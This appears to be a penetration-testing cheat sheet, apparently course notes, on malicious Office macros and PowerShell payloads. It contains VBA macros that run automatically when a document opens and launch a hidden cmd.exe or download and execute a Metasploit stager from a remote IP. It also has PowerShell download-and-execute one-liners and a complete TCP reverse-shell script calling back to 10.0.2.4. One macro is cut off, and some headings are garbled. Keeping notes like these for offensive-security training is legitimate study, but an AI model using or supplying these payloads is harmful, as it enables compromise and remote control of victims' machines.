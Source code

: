 Code Exec
```vb
**Foor loop**
```vb
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "cmd.exe"
    'Shell str, vbHide'
    CreateObject("Wscript.Shell").Run str, 0

End Sub
```



## Let PowerShell Help Us
Single One-Liner
```powershell
IEX (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')

```

**Powershell reverse shell**
```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.0.2.4:443/mypowershell.ps1')"

# mypowershell.ps1
$client = New-Object System.Net.Sockets.TCPClient("10.0.2.4",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Powershell in VBA
```powershell
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
    Dim exePath As String
    exePath = ActiveDocument.Path + "\msfstaged.exe"
    Wait (3)
    Shell exePath, vbHide
End Sub
Sub Wait(n As Long)
    'time delay'
    Dim t As Date
```

[https://youtu.be/N-7_JaEi1As?list=PLAXVYHMta5d4foizpSMGP9W3vFAo-9kCe&t=4767]: #